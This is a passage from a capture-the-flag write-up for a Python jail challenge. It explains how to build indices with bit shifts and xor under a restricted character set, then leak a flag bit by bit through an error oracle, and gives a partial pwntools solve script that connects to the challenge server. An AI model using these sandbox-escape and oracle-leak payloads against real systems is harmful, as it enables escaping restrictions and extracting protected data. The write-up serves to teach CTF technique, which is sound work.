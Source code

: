 The first way to generate new indicies is by using our bitshift operators. Given a known index `_[idx]`, we can then go to the position at `_[idx]`, `_[idx]>>1`, `_[idx]>>2`, etc. Moreover, if we then use some other operator such as `^` from our list, we can then take 2 different known values like `val1^val2` to get more new values. (This can also be done with the other operators but `^` was the most consistent and what ended up being used to solve this problem so I will just focus on `^` for now)

Essentially, we can run a BFS starting from `_[0]` and `_[1]` then finding all indicides connected to it by shifting and xoring known values.

Now we just need to test if a number `x` is odd or not. Recall we only need to check if a number is odd because we can use `>>` to shift any bit to the lsb position for some `_[idx]`. This can easily be achieved with `^` as we know that `0^1 = 1` and `1^1 = 0`. Thus we have that `x^1 > x` iff `x` is odd. We can then leak this data by producing an error on the odd case. if we do `[_][x^1 > x]`, when `x` is even, then the inequality returns `False` so indexing the 0th element is ok. But if `x` is odd, then indexing `True`, the first element is not ok.

Putting it all together we get a solve script:


```py
from pwn import *

mp = {} # Stores all the known values and their corresponding representation with the limited charset

# Return byte at index idx
def getIdx(idx):
    return "_["+mp[idx]+"]"


# Generates payload that includes error condition for the byte at position 'idx', bit at position 'bit'
def genPayload(idx, bit, op):
    # Implemented for other operators as well more explaination in Other Exploration section
    if op == "&":
        return "[_]["+getIdx(idx) + ">>[[_]>[]][_>_]"*(7-bit) + "&"+mp[1]+"]"
    
    if op == "|":
        return "[_]["+getIdx(idx) + ">>[[_]>[]][_>_]"*(7-bit) + "|"+mp[1]+">"+getIdx(idx) + ">>[[_]>[]][_>_]"*(7-bit)+"]"

    if op == "^":
        # Get the byte at idx then shift it over then xor and compare again unxored version. Then try to index [_] by the inequality
        return "[_]["+getIdx(idx) + ">>[[_]>[]][_>_]"*(7-bit) + "^"+mp[1]+">"+getIdx(idx) + ">>[[_]>[]][_>_]"*(7-bit)+"]"


# Define Variables
ITERATIONS = 100
solved = False
cnt = 0
p = None
op = None

# Keep trying until we get desired charset
while True:
    #p = process(["python3", "flaglottery-f123e427c45e/flag_lottery.py"])
    p = remote("challs3.pyjail.club", 24908)
    charset = set(map(lambda x:chr(int(x)),p.recvline().strip().decode().split(":")[1].split(", ")))
    print(charset)
    if set("[]>") < charset:
        op, = charset - set("[]>")
        if op not in "&|^":
```